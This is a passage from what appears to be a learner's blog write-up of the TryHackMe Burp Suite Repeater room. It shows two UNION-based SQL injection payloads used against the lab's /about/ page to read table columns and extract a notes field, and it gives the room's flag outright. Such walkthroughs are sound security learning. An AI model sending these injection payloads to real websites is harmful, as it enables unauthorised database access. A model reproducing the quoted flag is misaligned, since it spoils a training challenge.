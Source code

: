 ![flag from the database](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/c036d3282f1ec33472c0042f5d9a9f36.png align="left")

**Answer the questions below**

Exploit the union SQL injection vulnerability in the site.

1. What is the flag? `THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}`  
      
    For this step we’ll also be sending our request to the repeater but checking the about page. This time we’ll be using the SQL Injection after the path
    
    * on the first try we’ll have this: `/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"`
        
    * this is the second: GET /about/ `0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1` this will show the flag
        
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739640669720/a68f6edb-7db0-4e0c-93d4-05c3f507fd95.png align="center")
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739640756733/72b77ade-6caf-485d-b337-67fa26c64182.png align="center")

## Conclusion

Congratulations on completing the Burp Suite Repeater room!

By now, you should have a solid understanding of effectively utilizing Repeater to edit, manipulate, and resend requests. Additionally, you should have gained insight into the numerous practical applications of this tool.

In the next room of the module, we will explore the Burp Suite Intruder module. Intruder allows for automated and customizable attacks, making it a powerful tool for various security testing scenarios.

Good luck with the next room, and enjoy exploring the capabilities of [Burp Suite Intruder](https://tryhackme.com/room/burpsuiteintruder)!

Thank you for reading my article. P[lease leave a](https://tryhackme.com/room/ssrfqi)ny questions or comments on improving my learning journey and the Lab THM challenges.